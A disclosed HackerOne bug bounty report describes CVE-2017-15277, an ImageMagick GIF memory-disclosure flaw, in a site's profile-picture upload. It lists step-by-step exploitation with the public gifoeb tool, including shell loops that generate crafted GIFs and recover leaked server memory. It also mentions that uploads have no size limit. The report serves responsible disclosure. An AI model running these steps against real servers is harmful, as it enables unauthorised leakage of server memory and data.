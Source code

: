 # CVE-2017-15277 on Profile page

## Report Details
- **Report ID**: 315906
- **URL**: https://hackerone.com/reports/315906
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-02-14T09:13:58.108Z
- **Disclosed**: 2018-03-08T00:07:03.133Z

## Reporter
- **Username**: emitrani
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
Hi security team,


**Summary:** Please refer to #302885 for more details. Uploading a .gif produces significantly different images every time which means the server is leaking information.  

## Steps To Reproduce:


  1. Clone https://github.com/neex/gifoeb
  2. Generate exploitable gif with ./gifoeb gen 5120x5120 
  3. Upload gif as a profile picture at https://www.niche.co/users/{username}/account 
  4. Download the preview from aws at https://niche-s3-production.s3.amazonaws.com/uploads/user/avatar/....  as preview.ext
  5. run `` r=$(identify -format '%wx%h' preview.ext[0]) && for i in `seq 1 10`  ; do ./gifoeb gen $r for_upload/$i.gif; done``
  6. Upload the gif to the server and download the results
  7. Recover the servers response with ` for p in previews/*; do  ./gifoeb recover $p | strings; done`

Also while trying that I noticed there is no limit on how large of a gif a person can upload which could lead to some bottlenecks. https://www.niche.co/users/script-1-alert-script/posts



## Supporting Material/References:

Even though the first 2 attempts did not reveal sensitive data I think it is enough as a POC. Feel free to check out the uploads. If marked as Needs More Info I can keep trying to get sensitive data.

## Impact

By automating the process an attacker can gain valuable information from the server.

## Attachments
- attempt1.png
- attemp2.png
- medium_2be811a79f6de0d0_cropped_0_0_400_400.gif
